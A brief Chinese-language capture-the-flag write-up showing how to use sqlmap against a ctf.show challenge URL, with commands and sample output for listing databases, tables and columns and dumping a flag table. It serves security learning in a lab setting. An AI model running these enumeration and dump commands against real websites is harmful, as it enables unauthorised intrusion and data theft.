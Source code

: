 # sqlmap使用

<br>

* 常用参数
````
常用参数
--dbs 所有数据库
--tables 所有表
--columns 所有列

````

<br>

### 第一步：开始脚本注入

<br>


* 使用sqlmap -u url来进行注入

例：

sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id="

<br>

### 第二步：查表

执行上述命令后得到注入成功的回显然后可以进行查库操作

<br>

如上述命令执行后得到

````

available databases [7]:                                                                                                                                                                                    
[*] ctfshow
[*] ctftraining
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] test

````

<br>

* 接下来可以查看指定库的所有表：sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow --tables

* 得到回显
````

Database: ctfshow
[1 table]
+------+
| flag |
+------+

````

* 到这里就说明查询到表flag了，接下来使用: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --columns

````

Database: ctfshow                                                                                                                                                                                           
Table: flag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
| id     | int(11)      |
+--------+--------------+


````

* 接下来使用直接dump出来: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --dump